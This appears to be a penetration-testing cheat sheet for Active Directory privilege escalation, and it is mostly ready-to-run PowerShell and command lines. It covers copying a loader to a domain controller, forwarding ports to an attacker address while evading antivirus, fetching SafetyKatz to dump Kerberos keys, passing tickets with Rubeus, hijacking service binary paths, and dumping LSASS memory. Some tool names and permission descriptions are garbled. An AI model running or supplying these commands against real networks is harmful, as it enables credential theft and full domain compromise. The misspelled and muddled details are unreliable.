 ```yaml
---
layout: app
title: "Active Directory - PirvEsc"
tags: ["privesc","powerup","powerview","abuse service", "sc.exe", "Rubeus","permissions", "netloader","winrs","SafetyKats"]

---
```


# Privilege Escalation

## CheckList

- -**Missing Patches**
- -**Automated deployment**
- -**Autologon passwords**
- -**AlwaysInstallElevated**
- -**MisConfiguration Services**
- -**DLL Hijacking**
- -**NTLM Relaying**


### Tools
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* - Invoke-AllChecks
* [Privesc](https://github.com/enjoiz/Privesc)
* [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)


# Extract Hashes or Credentials

Import PowerView.ps1
Use to find out opened sessions

```powershell
Find-DomainUserLocation
```

Download NetLoader.exe and copy to Domain Controller

```powershell
echo f | xcopy C:\users\public\loader.exe \\dc01\c$\Users\Public\loader.exe
```

Add port forward into Domain Controller using winrs, to prevent AV detect

```powershell
$null | winrs -r:dc01 "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=280 connectaddress=[attacket_address]"
```

Invoke Loader to run SafetyKats to get hashes and credentials

```powershell
$null | winrs -r:dc01 "c:\Users\Public\loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit"
```

With **aes256_hmac** can be use **Rubeus** to execute command

```powershell
Rubeus.exe asktgt /user:<username> /aes256:<aes256_hmac> /opsec /createnetonly:C:\windows\system32\cmd.exe /show /ptt
```

## PowerSploit

### Get Services with Unquoted Path

```powershell
Get-ServiceUnquoted -Verbose
Get-WmiObject -Class win32_service | select pathname
```
### Current User rights

Determine if the current user has rights to modify the service binary itself or any associated arguments

```powershell
Get-ModifiableServiceFile
```

### Get Service Security Permission
```powershell
sc.exe sdshow "servicename"
```
**--------------------OUTPUT----------------------------**

- **D**: Indicates that is a Security Policy
- **A**: Indicates than additional permits are granted.
- **CC**: Change Permissions
- **LCSW**: List Contents
- **RP**: Read Permission
- **WP**: Write Permission
- **DT**: Delete Toggles
- **LOCRRC**: Ocultar o revelar recursos
- **;;;** indicates that the permissions apply to the account **service**

### Abuse of service

```powershell
sc.exe config "servicename" binpath="newservicepath"
```


## Enumeration

### Find computers where a current user can execute commands

```powershell
Find-LocalAdminAccess
Find-WMILocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess.ps1 
Invoke-CheckLocalAdminAccess
```

### Get all domain computers

```powershell
Get-NetComputer
```
### Finds domain machines where specific users are logged into

```powershell
Test-AdminAccess
Find-DomainUserLocation -CheckAccess
Find-DomainUserLocation -Stealth
```
## Run all checks

### PowerUp


```powershell
Invoke-AllChecks
```

### Privesc

```powershell
Invoke-PrivEsc
Invoke-Privesc check
```

### PEASS-ng

```powershell
winPEASx64.exe
```

# Dump Memory

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump "Lsass Process ID" c:\temp\lsass.dmp full
```

## Tools 

* lsassy
* Physmem2profit
* impacket